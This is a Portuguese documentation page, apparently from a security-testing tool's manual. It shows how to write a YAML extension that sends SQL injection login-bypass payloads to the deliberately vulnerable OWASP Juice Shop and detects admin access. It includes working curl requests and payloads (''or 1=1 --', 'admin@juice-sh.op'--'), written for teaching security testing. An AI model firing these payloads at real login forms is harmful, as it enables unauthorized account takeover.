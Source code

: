 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project




#   Criação de Extensão Não Modificadora

A extensão descrita neste documento não modificará uma solicitação inicial para injetar algum payload. Em vez disso, as duas solicitações de teste pré-definidas serão enviadas ao host que é especificado na solicitação inicial. Essas solicitações de teste contêm payloads que podem levar à exploração da vulnerabilidade SQLi no formulário de login do aplicativo alvo [“OWASP Juice Shop”][link-juice-shop].


##  Preparativos

É altamente recomendado [investigar o comportamento do aplicativo alvo][link-app-examination] antes da criação da extensão FAST.


##  Construindo a Extensão

Crie um arquivo que descreva a extensão (por exemplo, `non-mod-extension.yaml`) e preencha-o com as seções necessárias:

1.  [**A seção `meta-info`**][link-meta-info].

    Prepare a descrição da vulnerabilidade que a extensão tentará detectar.
    
    * cabeçalho da vulnerabilidade: `OWASP Juice Shop SQLi (extensão não modificadora)`
    * descrição da vulnerabilidade: `Demonstração de SQLi na OWASP Juice Shop (Login de Administrador)`
    * tipo de vulnerabilidade: Injeção SQL
    * nível de ameaça da vulnerabilidade: alto
    
    A seção `meta-info` correspondente deve ser assim:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (extensão não modificadora)'
      - description: 'Demonstração de SQLi na OWASP Juice Shop (Login de Administrador)'
    ```
    
2.  **A seção `enviar`, a [fase Enviar][doc-send-phase]**

    Há dois payloads que devem ser enviados como valor do parâmetro `email` junto com qualquer valor `password` para explorar a vulnerabilidade de injeção de SQL no aplicativo de destino:
    
    * `'ou 1=1 --`
    * `admin@juice-sh.op'--`
    
    Você pode criar duas solicitações de teste, cada uma contendo
    
    * o parâmetro `email` com um dos valores descritos acima e 
    * o parâmetro `password` com um valor arbitrário.

    É suficiente usar apenas uma dessas solicitações para testar nosso aplicativo de exemplo (OWASP Juice Shop).
    
    No entanto, ter um conjunto de várias solicitações de teste preparadas pode ser útil ao realizar o teste de segurança de um aplicativo real: se uma das solicitações não conseguir explorar uma vulnerabilidade graças a atualizações e melhorias no aplicativo, ainda haverá outras solicitações de teste disponíveis que podem continuar a explorar a vulnerabilidade devido a outros payloads em uso.

    A solicitação com o primeiro payload da lista acima é semelhante a esta:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    A segunda solicitação se assemelha à primeira:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Adicione a seção `enviar` contendo as descrições dessas duas solicitações de teste:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ```  
    
    !!! info "Uma nota sobre o cabeçalho `Host`" 
        O cabeçalho `Host` pode ser omitido nessas solicitações porque não influencia a exploração desta vulnerabilidade SQLi em particular. Um nó FAST adicionará automaticamente o cabeçalho `Host` extraído das solicitações iniciais.
        
        Leia [aqui][link-send-headers] sobre como a fase Enviar manipula os cabeçalhos das solicitações.

     3.  **A seção `detectar`, a [fase Detectar][doc-detect-phase]**.
    
    As seguintes condições indicam que a autenticação do usuário com direitos de administrador foi bem-sucedida:
    
    * A presença do identificador do carrinho de compras com o valor `1` no corpo da resposta. O parâmetro está no formato JSON e deve parecer com isto:
    
        ```
        "bid":1
        ```
    
    * A presença do parâmetro de email do usuário com o valor `admin@juice-sh.op` no corpo da resposta. O parâmetro está no formato JSON e deve parecer com isto:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Adicione a seção `detectar` que verifica se o ataque foi bem-sucedido de acordo com as condições descritas acima.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escapando os símbolos especiais"
    Lembre-se de escapar os símbolos especiais nas strings.

##  Arquivo de Extensão

Agora o arquivo `non-mod-extension.yaml` contém um conjunto completo das seções necessárias para a operação da extensão. A lista do conteúdo do arquivo é mostrada abaixo:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (extensão não modificadora)'
      - description: 'Demonstração de SQLi na OWASP Juice Shop (Login de Administrador)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Usando a Extensão

Para obter informações detalhadas sobre como usar a expressão criada, leia [este documento][link-using-extension].